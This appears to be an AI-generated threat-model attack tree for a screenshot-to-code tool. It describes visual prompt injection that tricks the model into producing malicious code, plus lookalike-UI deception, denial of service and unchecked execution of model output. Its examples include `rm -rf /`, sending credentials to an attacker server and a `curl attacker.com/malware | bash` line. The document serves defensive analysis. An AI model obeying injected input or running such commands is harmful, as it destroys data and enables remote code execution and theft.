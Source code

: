 Okay, here's the extracted sub-tree containing only the High-Risk Paths and Critical Nodes, along with a detailed breakdown of the attack vectors. I'm avoiding markdown tables and using only markdown lists.

**Title:** Screenshot-to-Code High-Risk Attack Sub-Tree

**Goal:** Exfiltrate Data, Execute Code, or Manipulate Application

**Sub-Tree:**

```
                                         Attacker Goal:
                     Exfiltrate Data, Execute Code, or Manipulate Application
                                             |
         =================================================================================
         |                                                                                 |
  **1. Manipulate Screenshot Input**                                            3. Compromise Backend Processing
         |                                                                                 |
  =================================                                             ========================
  |                |               |                                             |
**1a. Inject**  1c. Use        1d. Overload                                   **3a. Inject**
**Malicious**  Similar        System with                                     **Malicious**
**UI Elements [CRITICAL]** Looking       Large Number                                  **Code [CRITICAL]**
                      UI           of Screenshots
```

**Detailed Breakdown of Attack Vectors:**

*   **1. Manipulate Screenshot Input:** This is the primary entry point for attacks that leverage the inherent nature of the `screenshot-to-code` process. The attacker controls the visual input to the system.

    *   **1a. Inject Malicious UI Elements [CRITICAL]:**
        *   **Description:** The attacker crafts a screenshot containing UI elements that are visually designed to mislead the model into generating malicious code. This could involve using specific colors, shapes, text arrangements, or hidden elements that exploit the model's interpretation process. It's a form of visual prompt injection.
        *   **Likelihood:** Medium
        *   **Impact:** Very High (Arbitrary Code Execution)
        *   **Effort:** Medium
        *   **Skill Level:** Medium
        *   **Detection Difficulty:** Medium
        *   **Example:** A button seemingly labeled "Submit" might have subtle visual cues that, when processed, are interpreted as instructions to execute a shell command like `rm -rf /`. Or a text field might be designed to trick the model into generating code that exfiltrates environment variables.

    *   **1c. Use Similar Looking UI:**
        *   **Description:** The attacker creates screenshots that resemble legitimate UI components but contain subtle alterations or hidden elements designed to trick the model into generating code that performs unintended actions, such as extracting sensitive data or bypassing security checks.
        *   **Likelihood:** Medium
        *   **Impact:** Medium-High
        *   **Effort:** Medium
        *   **Skill Level:** Medium
        *   **Detection Difficulty:** Medium
        * **Example:** A fake login form that, on the surface, looks identical to a legitimate one, but its underlying representation (as interpreted by the model) includes instructions to send the entered credentials to an attacker-controlled server.

    *    **1d. Overload System with Large Number of Screenshots:**
        *    **Description:** This is a Denial-of-Service (DoS) attack. The attacker submits a large volume of screenshots to the system, overwhelming its resources (CPU, memory, network bandwidth, API rate limits) and making it unavailable to legitimate users.
        *    **Likelihood:** High
        *    **Impact:** Medium (Service Disruption)
        *    **Effort:** Low
        *    **Skill Level:** Low
        *    **Detection Difficulty:** Low
        *   **Example:** A script that rapidly uploads thousands of screenshots, causing the `screenshot-to-code` service to crash or become unresponsive.

*   **3. Compromise Backend Processing:** This branch focuses on vulnerabilities in the code that handles the *output* of the `screenshot-to-code` model.

    *   **3a. Inject Malicious Code [CRITICAL]:**
        *   **Description:** The attacker successfully crafts an input (usually through 1a) that causes the model to generate code containing malicious payloads. This generated code is then executed by the backend, leading to compromise. The backend fails to properly validate or sanitize the model's output.
        *   **Likelihood:** Medium
        *   **Impact:** Very High (Arbitrary Code Execution)
        *   **Effort:** Medium
        *   **Skill Level:** Medium-High
        *   **Detection Difficulty:** Medium
        *   **Example:** The model generates code that includes a system call (e.g., `os.system("curl attacker.com/malware | bash")`), and the backend executes this code without any checks. Or, the generated code might contain SQL injection payloads if it's used to interact with a database.

This focused sub-tree and detailed breakdown emphasize the core, high-risk attack vectors. The most critical vulnerabilities are 1a (malicious UI elements in the input) and 3a (injection of malicious code into the backend). Preventing these two attack vectors is paramount for securing an application that utilizes `screenshot-to-code`.
